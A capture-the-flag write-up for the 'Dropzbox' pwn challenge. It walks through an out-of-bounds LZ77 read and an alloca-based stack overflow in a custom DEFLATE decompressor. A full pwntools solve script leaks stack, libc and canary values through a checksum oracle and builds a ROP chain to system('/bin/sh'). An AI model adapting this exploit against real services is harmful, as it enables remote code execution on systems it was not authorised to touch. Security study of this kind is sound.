


FECTF 2023 Download
Dropzbox [-]
Description
For this challenge, we are given a binary along with a corresponding libc 2.36. The included description is as follows:
Please don't upload copyrighted material, kthxbye ;)
Running at
dropzbox.ctf:1337.
The original challenge had a funny unintended. This lead to the release of a revenge challenge, which changed the description to:
What?! Cheese is not vegan?
Please don't upload copyrighted material, kthxbye ;)
Running at
dropzbox-vegan.ctf:1337.
This writeup is for the vegan version of the challenge. To solve the original, simply do path traversal.
TLDR
Abusing an error in the LZ77 decoder, values from outside the buffer can be copied into the buffer. Using the checksum verification, the content of these can be brute forced. Once a stack pointer has been leaked, the canary can be leaked with a similar method, by redirecting the buffer pointer. Once the canary is known, one can simply ROP to system.
Recon
Overview
Running the binary, we are presented with a program for sending, storing and receiving files from a server. The files are saved in your so-called workspace, a folder that you choose yourself. Files can the be sent in the ZLIB format with DEFLATE compression, where the program implements a custom inflator for decompressing the files you send. In contrast, files that we download aren't compressed at all.
The decompressor
As mentioned, the program supports full on DEFLATE, including fixed Huffman codes, dynamic Huffman codes, non-compressed blocks and LZ77 encoding. We can see this by disassembling the decompressor:
while ( !last_block )
{
last_block = read_bits(f, 1uLL);
btype = read_bits(f, 2uLL);
if ( btype == 3 )
{
fwrite("Invalid BTYPE\n", 1uLL, 0xEuLL, stderr);
exit(1);
}
if ( btype ) // Compressed blocks
{
if ( btype == 1 ) // Fixed huffman codes
{
...
}
else // Dynamic huffman codes
{
...
}
else // Non-compressed blocks
{
The program maintains a buffer on the stack with all the currently decompressed data, along with values for buffer size and data length. On top of this, it reads individual bits via a custom struct wrapping stdin.
When the buffer is exhausted, the program will allocate extra memory, which will be done through alloca, extending the stack. This can be seen multiple places, this is from the non-compressed block parsing:
if ( HIDWORD(curr_len) < curr_len + LEN )
{
if ( buffer )
{
v3 = alloca(16 * ((HIDWORD(curr_len) + 23) / 0x10));
dest = &v15;
HIDWORD(curr_len) += buffer - &v15;
memmove(&v15, buffer, curr_len);
buffer = dest;
}
else
{
v4 = alloca(16 * ((LEN + 23) / 0x10));
buffer = &v15;
HIDWORD(curr_len) = LEN;
}
}
Once the process is done, the program allocates a fitting buffer on the heap and copies all decompressed data into the buffer.
Finding the bug
As we are dealing with a decompressor, this type of program is naturally prone to buffer overflows and overreads. First instinct is to try and desync the data length value from the actual data, but this proves to be infeasible, since the program has strict length checks for most input. Take this block from the non-compressed parsing as an example:
if ( v5 != fread(buffer + curr_len, 1uLL, LEN, *f) )
{
fwrite("Read error\n", 1uLL, 0xBuLL, stderr);
exit(1);
}
Looking closer at the memory allocation, the program seems to exhibit some strange behavior. In all places where the program allocates, the program has two individual clauses, depending on whether buffer, the base of the data pointer, is initialized:
if ( HIDWORD(curr_len) < curr_len + LEN )
{
if ( buffer )
{
v3 = alloca(16 * ((HIDWORD(curr_len) + 23) / 0x10));
dest = &v15;
HIDWORD(curr_len) += buffer - &v15;
memmove(&v15, buffer, curr_len);
buffer = dest;
}
else
{
v4 = alloca(16 * ((LEN + 23) / 0x10));
buffer = &v15;
HIDWORD(curr_len) = LEN;
}
}
As we can see, when buffer is not initialized, the program properly allocates based on the requested block size. However, once buffer is initialized, it switches to a different clause, where the allocation size only depends on the current data length. I assume this clause is used to extend the allocated buffer upwards, but the developer "mistakenly" confused the two length values.
Using this information, I made the following POW, using ZLIB to compress two blocks, then combining them by recalculating the checksum:
def long_to_bytes(n):
""" Converts a number n to a big endian bytearray """
return bytearray(((n >> (i * 8)) & 0xff for i in range((n.bit_length() - 1) // 8, -1, -1)))
def get_checksum(plt):
""" Returns 4 byte padded checksum for the given plaintext """
return long_to_bytes(adler32(plt)).rjust(4, b"\x00")
def gen_payload(payload):
""" Generates a payload triggering the overflow in while loading uncompressed blocks """
# Generate random data for block 1 and 2
plain1 = zero(64)
plain2 = zero(104) + payload
plain = plain1 + plain2
# Individually compress blocks and extract header bytes
header = compress(b"test")[:2]
data1 = compress(plain1, level=0)[2:-4] # level=0 is uncompressed
data2 = compress(plain2, level=0)[2:-4]
# Combine data and clear "last block" bit in first block
data = data1 + data2
data = bytearray(data)
data[0] = 0
# Calculate combined checksum and return complete data
checksum = get_checksum(plain).rjust(4, b"\x00")
data = header + data + checksum
return data
conn = start()
# Select namespace
conn.sendlineafter(b"> ", b"pwn")
payload = gen_payload(b"A" * 0x100)
conn.sendlineafter(b"Quit", b"1")
conn.sendlineafter(b"filename", b"test")
conn.sendafter(b"plox", payload)
conn.interactive()
And indeed, this causes the program to segfault by overwriting important pointers with A's.
No leek :(
While attempting to exploit this vulnerability, I encountered problems with properly formulating an exploit without having leaks. As i mentioned, its quite hard to desync the data length from the actual input length, and even if you could (which you probably can), the program wouldn't actually save the data, unless the data passes the checksum verification.
From talking with another team after the CTF, I know it to be possible to exploit without initial leaks. You can presumably offset the pointer that indicates return value, thereby getting a restricted write on the stack, which you can use for all kinds of creativity.
Instead, I wanted to try exploiting an error I was fairly certain the program had. In order to explain it, I will first have to talk a bit about LZ77 encoding, and the DEFLATE algorithm as a whole.
LZ77 in DEFLATE
A part of the DEFLATE compression algorithm is the LZ77 encoding standard. This encoding seeks to compress data, by reducing duplicated sequences of characters to so-called length and distance codes. Observe the following example.

The parenthesis encapsulating the two numbers indicate, that we are dealing with a length and distance code. The two numbers, 4 and 3 indicate length of sequence and distance from current position. With a distance of 3, the sequence is pointing back at the beginning of the data, and with a length of 4, it is telling the decompressor to take the bytes "AACA". Notice, that even though the sequence overlaps with itself, the decompressor can still resolve, that the last character will be an "A", same as the first.
In order to implement this efficiently (this is a compression algorithm), the authors of DEFLATE devised a method for optimizing this process for many different length and distances.
Using fixed Huffman codes, the following table describes input and output values for literals between 0 and 287:
Lit Value Bits Codes
--------- ---- -----
0 - 143 8 00110000 through
10111111
144 - 255 9 110010000 through
111111111
256 - 279 7 0000000 through
0010111
280 - 287 8 11000000 through
11000111
Literals between 0 and 255 are simply literals; they describe one byte of data. However, anything above indicates the beginning of an LZ77 escape sequence, the specific value indicating the so-called length code.
Using the length code, the decompressor then uses the following table to get a bit and lengths value:
Extra Extra Extra
Code Bits Length(s) Code Bits Lengths Code Bits Length(s)
---- ---- ------ ---- ---- ------- ---- ---- -------
257 0 3 267 1 15,16 277 4 67-82
258 0 4 268 1 17,18 278 4 83-98
259 0 5 269 2 19-22 279 4 99-114
260 0 6 270 2 23-26 280 4 115-130
261 0 7 271 2 27-30 281 5 131-162
262 0 8 272 2 31-34 282 5 163-194
263 0 9 273 3 35-42 283 5 195-226
264 0 10 274 3 43-50 284 5 227-257
265 1 11,12 275 3 51-58 285 0 258
266 1 13,14 276 3 59-66
The lengths value here is an offset. The decompressor will read the following "bits" bits from the input, then add the result to that lengths value. The resulting value is then used as the length of the sequence being referred to.
Something similar is done with the distance. Following this, the decompressor reads a 5 bit integer between 0 and 29, indicating the distance code. The distance code is then used to resolve the distance, in the exact same way as with the length, simply using a different table:
Extra Extra Extra
Code Bits Dist Code Bits Dist Code Bits Distance
---- ---- ---- ---- ---- ------ ---- ---- --------
0 0 1 10 4 33-48 20 9 1025-1536
1 0 2 11 4 49-64 21 9 1537-2048
2 0 3 12 5 65-96 22 10 2049-3072
3 0 4 13 5 97-128 23 10 3073-4096
4 1 5,6 14 6 129-192 24 11 4097-6144
5 1 7,8 15 6 193-256 25 11 6145-8192
6 2 9-12 16 7 257-384 26 12 8193-12288
7 2 13-16 17 7 385-512 27 12 12289-16384
8 3 17-24 18 8 513-768 28 13 16385-24576
9 3 25-32 19 8 769-1024 29 13 24577-32768
In the end, an LZ77 sequence is described by length code + length bits + distance code + distance bits.
If you want a more detailed explanation of DEFLATE, read the specification i used here.
LZ77 out of bounds
We can actually read this exact behavior from our decompilation:
distance_code -= 257; // Normalize to index
length_code = length_bases[distance_code]; // Read base from table
length = length_code + read_bits(f, length_bits[distance_code]); // Read bits
distance_code = huffman_decode(lz77_tree, f); // Read distance code
if ( distance_code > 0x1D ) // Anything above 29 is invalid
{
fprintf(stderr, "Invalid distance value: %d\n", distance_code);
exit(1);
}
distance_base = distance_bases[distance_code]; // Read base from table
distance = distance_base + read_bits(f, distance_bits[distance_code]); // Read bits
Following this thread, the program will eventually execute:
memcpy(buffer + curr_len, buffer + curr_len - distance, length);
However, one thing that should definitely be present here is missing; the program never checks if the sequence goes out of bounds. Since the buffer is located on the stack, it is entirely possible "steal" data from outside the buffer, then brute force each byte using the checksum verification.
Exploitation
Obtaining leaks
Based on the specification I explained earlier, I put together these functions to generate arbitrary LZ77 sequences:
length_bases = [3, 4, 5, 6, 7, 8, 9, 10, 11, 13, 15, 17, 19, 23, 27, 31, 35, 43, 51, 59, 67, 83, 99, 115, 131, 163, 195, 227, 258]
length_bit_counts = [0, 0, 0, 0, 0, 0, 0, 0, 1, 1, 1, 1, 2, 2, 2, 2, 3, 3, 3, 3, 4, 4, 4, 4, 5, 5, 5, 5, 0]
distance_bases = [1, 2, 3, 4, 5, 7, 9, 13, 17, 25, 33, 49, 65, 97, 129, 193, 257, 385, 513, 769, 1025, 1537, 2049, 3073, 4097, 6145, 8193, 12289, 16385, 24577]
distance_bit_counts = [0, 0, 0, 0, 1, 1, 2, 2, 3, 3, 4, 4, 5, 5, 6, 6, 7, 7, 8, 8, 9, 9, 10, 10, 11, 11, 12, 12, 13, 13]
def huffman_encode(n):
""" Encodes n using the fixed huffman encoding set """
if 0 <= n <= 143:
return bin(48 + n)[2:].rjust(8, "0")
elif 144 <= n <= 255:
return bin(400 + n - 144)[2:].rjust(9, "0")
elif 256 <= n <= 279:
return bin(n - 256)[2:].rjust(7, "0")
elif 280 <= n <= 287:
return bin(192 + n - 280)[2:].rjust(8, "0")
else:
raise ValueError(f"Invalid character for encoding: {n}")
def forge_lz77(length, distance):
""" Generate an LZ77 escape sequence with a given length and distace """
i = len(length_bases) - 1
# Find base for length
while length_bases[i] > length:
i -= 1
# Encode length code
length_escape = huffman_encode(257 + i)
# Get the corresponding bit length
length_bit_count = length_bit_counts[i]
length_bits = ""
# If not 0, calculate length bits
if length_bit_count:
length_diff = length - length_bases[i]
length_bits = bin(length_diff)[2:].rjust(length_bit_count, "0")
i = len(distance_bases) - 1
# Find base for distance
while distance_bases[i] > distance:
i -= 1
# Get distance code
distance_code = bin(i)[2:].rjust(5, "0")
# Get the corresponding bit length
distance_bit_count = distance_bit_counts[i]
distance_bits = ""
# If not 0, calculate distance bits
if distance_bit_count:
distance_diff = distance - distance_bases[i]
distance_bits = bin(distance_diff)[2:].rjust(distance_bit_count, "0")
# A bit confusing, since bits are actually little endian, in contrast to the codes
return length_escape + reverse_string(length_bits) + distance_code + reverse_string(distance_bits)
As I mentioned earlier, the program will not save the file, unless the input passes the checksum verification. And since we can't know the checksum without knowing the data, we must somehow figure out what the data. To do this, we can simply use brute force.

Since the minimum copy length is 3, we can simply point two bytes before the desired pointer. We then iterate through all possible values for the last byte. When our checksum becomes valid, we know that we have found the hidden value. Afterwards, we simply increment our pointer by one and do the same thing again, until we have the whole pointer.
Based on this idea, I wrote the following code to leak a stack and a libc pointer:
def bits_to_bytes(data):
""" Converts an 8 bit aligned bit string to bytearray """
return bytearray((int(data[i: i+8], base=2) for i in range(0, len(data), 8)))
def reverse_endianess(data):
""" Reverses the endianness of a 8 bit aligned bit string """
return "".join("".join(reversed(data[i: i+8])) for i in range(0, len(data), 8))
def get_checksum(plt):
""" Returns 4 byte padded checksum for the given plaintext """
return long_to_bytes(adler32(plt)).rjust(4, b"\x00")
def send_file(payload):
""" Helper function to send a file to the server """
conn.sendlineafter(b"Quit\n", b"1")
conn.sendlineafter(b"filename", b"test")
conn.sendafter(b"plox", payload)
def try_byte(payload):
""" Try byte for checksum messages """
send_file(payload)
conn.recvline()
res = conn.recvline(timeout=0.1)
return res and b"checksum" not in res
def brute_byte(known_plain, raw_payload):
""" Brute force a single byte with checksum """
header = compress(b"test")[:2]
for char in range(1, 256):
full_plaintext = known_plain + bytearray((char, ))
check = get_checksum(full_plaintext)
payload = header + raw_payload + check
if try_byte(payload):
return char
def brute_qword(start_offset):
""" Brute force a qword given an offset """
leak = bytearray((0, 0))
for i in range(8):
bits = "110" + forge_lz77(3, start_offset + 2 - i) + "0" * 8
bits += "0" * (8 - (len(bits) % 8))
bits = reverse_endianess(bits)
data = bits_to_bytes(bits)
val = brute_byte(leak[-2:], data)
leak.append(val if val else 0)
return leak[2:]
conn = start()
# Select namespace
conn.sendlineafter(b"> ", b"pwn")
# Brute force a stack address with out of bounds LZ77 and checksum
leak = brute_qword(320) # Leak value at offset 322
stack = u64(leak) + 0x228
print(f"stack @ {hex(stack)}")
# Brute force a libc address with out of bounds LZ77 and checksum
leak = brute_qword(208)
libc_leak = u64(leak)
libc.address = libc_leak - 0x1ce9e0
print(f"libc @ {hex(libc.address)}")
Each sequence is prefixed with "110", indicating last block and fixed Huffman. Additionally, they are also padded with an extra null byte, since that seems to be required.
Leaking the canary
One thing I haven't mentioned yet is the canary. In fact, we aren't actually able to leak it using the previously described method. The canary doesn't appear above the buffer on the stack, since all down-stream functions are libc functions. At the same time, overlap copying prevents us from actually copying beyond the buffer.
We will have to use a different method. One might notice, that since alloca always allocates upwards, the buffer we operate on is always above the remaining variables. This is a prime example of why you should NOT use alloca for user controlled buffers; instead of needing to know the canary, an attacker can simply modify variables and pointers within the stack frame.
Most notably, the buffer is an easy target. If we point buffer into the canary, while also modifying curr_len to 1, we can brute force a single byte of the canary, almost like the previous method. The following code does just that:
known = bytearray()
# Brute force the canary with checksum
for i in range(8):
for char in range(256):
payload = p64(stack) # Preserve pointers to avoid segfaults
payload += p64(stack - 8) # Address to write length to return
payload += p64(stack + 8) # Address to write buffer to return
payload += p64(0) # File pointer, not used further
payload += p64(0x9000000000 + 0xffffff11) # max_len and curr_len
payload += p64(1) # Last block to 1
payload += p64(0) * 5
payload += p64(0xf0) # Length of block, wraps curr_len to 1
payload += p64(0) * 4
payload += p64(stack - 0x80 + i) # buffer pointer into canary
curr = bytearray((char, )) # Since length is 1, we brute force one character
payload = gen_payload(payload) # Generate overflow payload
# We now overwrite the checksum with a new checksum
payload = payload[:-4] + get_checksum(curr)
# Wait for response
res = conn.recvline(timeout=0.1)
if not res:
conn.sendline() # This helped mitigate some weird issues
send_file(payload)
# If the checksum is valid, add the byte to known
conn.recvline(timeout=0.1)
res = conn.recvline(timeout=0.1)
if res and b"checksum" not in res:
known.append(char)
break
else:
# Yeah...
print("FUUUUCK")
return known
canary = u64(known)
print(f"canary = {hex(canary)}")
Notice that we set curr_len to such a value, that it will overflow to 1 after adding the block length. This is done to preserve the file structure, as it would otherwise go out of sync.
Dropping a shell
Dropping a shell is as simple as it gets. We use the very same overflow described earlier to call system("/bin/sh"):
# Final payload comming up, only necessary values present
payload = p64(stack)
payload += p64(stack - 8) # Return length address
payload += p64(stack + 8) # Return buffer address
payload += p64(0) * 2
payload += p64(1) # Last block, must be true
payload += p64(0) * 10
payload += p64(stack - 0x80) # Buffer pointer, must be valid
payload += p64(0) * 3
payload += p64(canary)
payload += p64(0) * 3 # Weird values after canary
# Main show, rop chain to system
payload += p64(libc.address + 0x27765)
payload += p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(libc.address + 0x270e2)
payload += p64(libc.sym.system)
# Generate overflow payload
payload = gen_payload(payload)
send_file(payload)
conn.interactive()
Solution
Below is my full solve script. As with mixer, this one also proved to be divisive. I heard that others didn't even make use of the LZ77 out of bounds read. You can instead do some whacky stuff with the return size pointer, which somehow leads to leaking.
from pwn import *
from zlib import compress, adler32
BINARY = "./dropzbox_patched"
HOST = "dropzbox-vegan.ctf"
PORT = 1337
elf = context.binary = ELF(BINARY, checksec=False)
libc = ELF([lib for lib in elf.libs if '/libc.' in lib or '/libc-' in lib][0], checksec=False)
context.log_level = "WARNING"
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P', '-p', '80']
context.gdbinit = "~/.gdbinit_splitmind"
env = {} # {"LD_LIBRARY_PATH": "./", "LD_PRELOAD": ""}
gdbscript = '''
set follow-fork-mode child
c
'''
def start():
if args.REMOTE:
return connect(HOST, PORT)
elif args.RAW:
return process(BINARY)
else:
p = process(BINARY) # Bypass for weird forking behavior
gdb.attach(p, gdbscript=gdbscript)
time.sleep(0.5)
return p
# Constants for LZ77 encoding
length_bases = [3, 4, 5, 6, 7, 8, 9, 10, 11, 13, 15, 17, 19, 23, 27, 31, 35, 43, 51, 59, 67, 83, 99, 115, 131, 163, 195, 227, 258]
length_bit_counts = [0, 0, 0, 0, 0, 0, 0, 0, 1, 1, 1, 1, 2, 2, 2, 2, 3, 3, 3, 3, 4, 4, 4, 4, 5, 5, 5, 5, 0]
distance_bases = [1, 2, 3, 4, 5, 7, 9, 13, 17, 25, 33, 49, 65, 97, 129, 193, 257, 385, 513, 769, 1025, 1537, 2049, 3073, 4097, 6145, 8193, 12289, 16385, 24577]
distance_bit_counts = [0, 0, 0, 0, 1, 1, 2, 2, 3, 3, 4, 4, 5, 5, 6, 6, 7, 7, 8, 8, 9, 9, 10, 10, 11, 11, 12, 12, 13, 13]
def huffman_encode(n):
""" Encodes n using the fixed huffman encoding set """
if 0 <= n <= 143:
return bin(48 + n)[2:].rjust(8, "0")
elif 144 <= n <= 255:
return bin(400 + n - 144)[2:].rjust(9, "0")
elif 256 <= n <= 279:
return bin(n - 256)[2:].rjust(7, "0")
elif 280 <= n <= 287:
return bin(192 + n - 280)[2:].rjust(8, "0")
else:
raise ValueError(f"Invalid character for encoding: {n}")
def forge_lz77(length, distance):
""" Generate an LZ77 escape sequence with a given length and distace """
i = len(length_bases) - 1
# Find base for length
while length_bases[i] > length:
i -= 1
# Encode length code
length_escape = huffman_encode(257 + i)
# Get the corresponding bit length
length_bit_count = length_bit_counts[i]
length_bits = ""
# If not 0, calculate length bits
if length_bit_count:
length_diff = length - length_bases[i]
length_bits = bin(length_diff)[2:].rjust(length_bit_count, "0")
i = len(distance_bases) - 1
# Find base for distance
while distance_bases[i] > distance:
i -= 1
# Get distance code
distance_code = bin(i)[2:].rjust(5, "0")
# Get the corresponding bit length
distance_bit_count = distance_bit_counts[i]
distance_bits = ""
# If not 0, calculate distance bits
if distance_bit_count:
distance_diff = distance - distance_bases[i]
distance_bits = bin(distance_diff)[2:].rjust(distance_bit_count, "0")
# A bit confusing, since bits are actually little endian, in contrast to the codes
return length_escape + reverse_string(length_bits) + distance_code + reverse_string(distance_bits)
def zero(n):
""" Returns a bytearray containing n null bytes """
return bytearray(n)
def reverse_endianess(data):
""" Reverses the endianness of a 8 bit aligned bit string """
return "".join("".join(reversed(data[i: i+8])) for i in range(0, len(data), 8))
def reverse_string(data):
""" Reverse a string """
return "".join(reversed(data))
def bits_to_bytes(data):
""" Converts an 8 bit aligned bit string to bytearray """
return bytearray((int(data[i: i+8], base=2) for i in range(0, len(data), 8)))
def long_to_bytes(n):
""" Converts a number n to a big endian bytearray """
return bytearray(((n >> (i * 8)) & 0xff for i in range((n.bit_length() - 1) // 8, -1, -1)))
def get_checksum(plt):
""" Returns 4 byte padded checksum for the given plaintext """
return long_to_bytes(adler32(plt)).rjust(4, b"\x00")
def gen_payload(payload):
""" Generates a payload triggering the overflow in while loading uncompressed blocks """
# Generate random data for block 1 and 2
plain1 = zero(64)
plain2 = zero(104) + payload
plain = plain1 + plain2
# Individually compress blocks and extract header bytes
header = compress(b"test")[:2]
data1 = compress(plain1, level=0)[2:-4] # level=0 is uncompressed
data2 = compress(plain2, level=0)[2:-4]
# Combine data and clear "last block" bit in first block
data = data1 + data2
data = bytearray(data)
data[0] = 0
# Calculate combined checksum and return complete data
checksum = get_checksum(plain).rjust(4, b"\x00")
data = header + data + checksum
return data
def send_file(payload):
""" Helper function to send a file to the server """
conn.sendlineafter(b"Quit\n", b"1")
conn.sendlineafter(b"filename", b"test")
conn.sendafter(b"plox", payload)
def try_byte(payload):
""" Try byte for checksum messages """
send_file(payload)
conn.recvline()
res = conn.recvline(timeout=0.1)
return res and b"checksum" not in res
def brute_byte(known_plain, raw_payload):
""" Brute force a single byte with checksum """
header = compress(b"test")[:2]
for char in range(1, 256):
full_plaintext = known_plain + bytearray((char, ))
check = get_checksum(full_plaintext)
payload = header + raw_payload + check
if try_byte(payload):
return char
def brute_qword(start_offset):
""" Brute force a qword given an offset """
leak = bytearray((0, 0))
for i in range(8):
bits = "110" + forge_lz77(3, start_offset + 2 - i) + "0" * 8
bits += "0" * (8 - (len(bits) % 8))
bits = reverse_endianess(bits)
data = bits_to_bytes(bits)
val = brute_byte(leak[-2:], data)
leak.append(val if val else 0)
return leak[2:]
# --------------------------------- LZ77 out of bounds ---------------------------------
conn = start()
# Select namespace
conn.sendlineafter(b"> ", b"pwn")
# Brute force a stack address with out of bounds LZ77 and checksum
leak = brute_qword(320) # Leak value at offset 322
stack = u64(leak) + 0x228
print(f"stack @ {hex(stack)}")
# Brute force a libc address with out of bounds LZ77 and checksum
leak = brute_qword(208) # Leak value at offset 208
libc_leak = u64(leak)
libc.address = libc_leak - 0x1ce9e0
print(f"libc @ {hex(libc.address)}")
# ----------------------------------- Leaking canary -----------------------------------
known = bytearray()
# Brute force the canary with checksum
for i in range(8):
for char in range(256):
payload = p64(stack) # Preserve pointers to avoid segfaults
payload += p64(stack - 8) # Address to write length to return
payload += p64(stack + 8) # Address to write buffer to return
payload += p64(0) # File pointer, not used further
payload += p64(0x9000000000 + 0xffffff11) # max_len and curr_len
payload += p64(1) # Last block to 1
payload += p64(0) * 5
payload += p64(0xf0) # Length of block, wraps curr_len to 1
payload += p64(0) * 4
payload += p64(stack - 0x80 + i) # buffer pointer into canary
curr = bytearray((char, )) # Since length is 1, we brute force one character
payload = gen_payload(payload) # Generate overflow payload
# We now overwrite the checksum with a new checksum
payload = payload[:-4] + get_checksum(curr)
# Wait for response
res = conn.recvline(timeout=0.1)
if not res:
conn.sendline() # This helped mitigate some weird issues
send_file(payload)
# If the checksum is valid, add the byte to known
conn.recvline(timeout=0.1)
res = conn.recvline(timeout=0.1)
if res and b"checksum" not in res:
known.append(char)
break
else:
# Yeah...
print("FUUUUCK")
return known
canary = u64(known)
print(f"canary = {hex(canary)}")
# ---------------------------------- Dropping a shell ----------------------------------
# Final payload comming up, only necessary values present
payload = p64(stack)
payload += p64(stack - 8) # Return length address
payload += p64(stack + 8) # Return buffer address
payload += p64(0) * 2
payload += p64(1) # Last block, must be true
payload += p64(0) * 10
payload += p64(stack - 0x80) # Buffer pointer, must be valid
payload += p64(0) * 3
payload += p64(canary)
payload += p64(0) * 3 # Weird values after canary
# Main show, rop chain to system
payload += p64(libc.address + 0x27765)
payload += p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(libc.address + 0x270e2)
payload += p64(libc.sym.system)
# Generate overflow payload
payload = gen_payload(payload)
send_file(payload)
# ROP to system
conn.interactive()